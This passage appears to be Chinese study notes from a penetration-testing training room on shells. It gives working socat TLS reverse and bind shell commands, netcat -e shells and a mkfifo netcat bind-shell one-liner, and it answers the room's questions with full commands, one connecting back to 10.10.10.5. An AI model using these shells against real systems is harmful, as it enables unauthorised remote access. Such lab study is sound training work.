 这将使用我们生成的证书设置一个 OPENSSL 侦听器。 `verify=0` 告诉连接不要费心尝试验证我们的证书是否已由公认的权威机构正确签名。请注意，必须在正在侦听的任何设备上使用该证书。

要返回连接，我们将使用： 
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

相同的技术适用于 bind shell： 
目标：
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes 
```

攻击者： 
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0
```
- 再次注意，即使对于 Windows 目标，证书也必须与侦听器一起使用，因此需要为 bind shell 复制 PEM 文件。 下图显示了来自 Linux 目标的 OPENSSL 反向 shell。和往常一样，目标在右边，攻击者在左边：

![](https://i.imgur.com/uqG9bL8.png)

这种技术也适用于上一个任务中介绍的特殊的、仅限 Linux 的 TTY shell —— 弄清楚它的语法将是这个任务的挑战。如果您正在努力获得答案，请随意使用 Linux 练习盒（可部署在房间的尽头）进行实验。

**回答以下问题：**
1. 使用上一个任务中的 tty 技术设置 OPENSSL-LISTENER 的语法是什么？使用端口 53 和一个名为“encrypt.pem”的 PEM 文件

```bash
socat OPENSSL-LISTEN:<53>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0 
```
2. 如果您的 IP 是 10.10.10.5，您将使用什么语法连接回此侦听器？

```bash
socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### 2.8 常用的 Shell Payloads
> 有效负载表示 payload 的意思


我们很快就会考虑使用 `msfvenom` 生成有效负载，但在此之前，让我们使用我们已经介绍过的工具看一下一些常见的有效负载。 

之前的任务提到我们将研究使用 netcat 作为 bind shell 侦听器的一些方法，因此我们将从它开始。在某些版本的 netcat 中（包括 Kali 位于 `/usr/share/windows-resources/binaries` 处的 nc.exe Windows 版本，以及 Kali 自身所用的版本：`netcat-traditional`）有一个 `-e` 选项，它允许您在连接上执行一个程序。例如一个监听器：
`nc -lvnp <端口> -e /bin/bash` 

使用 netcat 连接到上述侦听器将在目标上生成一个 bind shell。 同样，对于反向 shell，使用 `nc <LOCAL-IP> <PORT> -e /bin/bash` 回连将导致目标上的反向 shell。

然而，这并没有包含在大多数版本的 netcat 中，因为它被广泛认为是非常不安全的（这很有趣，是吧？）。在几乎总是需要静态二进制文件的 Windows 上，此技术将非常有效。然而，在 Linux 上，我们将改为用此代码创建一个 bind shell 侦听器： 
```bash
mkfifo /tmp/f; nc -lvnp <端口> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm/tmp/f 

```
以下段落是对该命令的技术解释。它略高于这个房间的高度，所以如果你现在看不懂也没关系——命令本身才是最重要的。 该命令首先在 `/tmp/f ` 中创建[命名管道](https://www.linuxjournal.com/article/2156)。然后它启动一个 netcat 侦听器，并将侦听器的输入连接到命名管道的输出。 netcat 侦听器的输出（即我们发送的命令）然后直接通过管道传输到 `sh`，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。 
